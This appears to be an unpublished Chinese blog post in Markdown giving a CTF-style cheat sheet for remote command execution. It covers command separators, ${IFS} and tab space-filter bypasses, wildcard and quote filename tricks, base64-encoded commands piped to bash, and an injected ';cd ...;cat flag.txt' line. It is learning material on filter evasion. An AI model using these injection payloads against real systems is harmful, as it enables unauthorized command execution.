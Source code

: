 ```yaml
---
layout: post
title: 远程命令执行
subtitle: RCE
date: 2025-08-12 17:38
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
number headings: 
published: false
---
```

## 1. RCE 漏洞利用

### 1.1. 命令连接符

- `;`
- `|`、`||`
- `&`、`%26`、`&&`、`%26%26`
- `%0a`

### 1.2. 空格过滤绕过

- `${IFS}`、`$IFS`、`$IFS$9`
- `<` 、`>`、`<>`
- `%09`：相当于 `Tab`
- `{,}`：`{cat,flag.php}`

### 1.3. 文件名过滤绕过

- `??`：`cat flag??`
- `*`：`cat flag.*`
- 单引号、双引号：`cat fl""ag.p'h'p`
- `\`：`cat fl\ag.p\hp`

### 1.4. base64 编码绕过

```shell
# cat flag.php ==base64==> Y2F0IGZsYWcucGhw
echo Y2F0IGZsYWcucGhw | base64 -d | bash
$(echo Y2F0IGZsYWcucGhw | base64 -d)
`echo Y2F0IGZsYWcucGhw | base64 -d`
```

### 1.5. `cat` 命令过滤绕过

- `tac`
- `head`、`tail`
- `more`、`less`

### 1.6. 目录分隔符过滤绕过

**flag 在上级目录情况**

多个命令执行：先 cd 到上级目录再 cat 内容

```shell
;cd flag_is_here;cat flag.txt
```
